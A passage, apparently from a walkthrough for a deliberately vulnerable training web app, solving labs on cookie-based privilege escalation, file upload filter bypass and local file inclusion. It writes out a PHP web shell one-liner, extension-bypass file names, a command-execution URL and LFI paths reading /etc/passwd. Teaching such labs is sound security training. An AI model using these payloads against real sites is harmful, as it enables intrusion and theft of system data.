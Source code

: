 **Step 3: Examine cookies**
- Check browser cookies
- Find `uid` cookie with value

**Step 4: Privilege escalation**
- Change `uid` cookie to: `c4ca4238a0b923820dcc509a6f75849b` (MD5 of "1")
- Refresh the page
- Comments now appear as "Admin"

**Step 5: Post as admin**
- Submit a comment
- It will appear with "Admin" username

---

## Lab 5: File Upload Vulnerability (upload/)

**Step 1: Login to application**
- Navigate to `upload/login.php`
- Login with valid credentials

**Step 2: Analyze upload functionality**
- Go to `upload/profile.php`
- Notice file upload form

**Step 3: Test blocked extensions**
- Try uploading `test.php` - blocked
- Extensions blocked: php, html, jsp, shtml, exe

**Step 4: Bypass techniques**

**Method 1 - Double extension:**
- Create file: `shell.php.jpg`
- Content: `<?php system($_GET['cmd']); ?>`
- Upload successfully

**Method 2 - Case variation:**
- Create file: `shell.PHP`
- Upload successfully

**Method 3 - Alternative extensions:**
- Try: `shell.phtml`, `shell.php3`, `shell.php5`

**Step 5: Execute commands**
- Access uploaded file: `upload/userfiles/shell.php.jpg?cmd=whoami`
- Execute system commands

---

## Lab 6: Local File Inclusion (LFI) (file inclusion/)

**Step 1: Analyze the application**
- Navigate to `file inclusion/index.php`
- Notice URL parameter `f`

**Step 2: Test basic LFI**
- Try: `index.php?f=/etc/passwd`
- Try: `index.php?f=/windows/system32/drivers/etc/hosts`
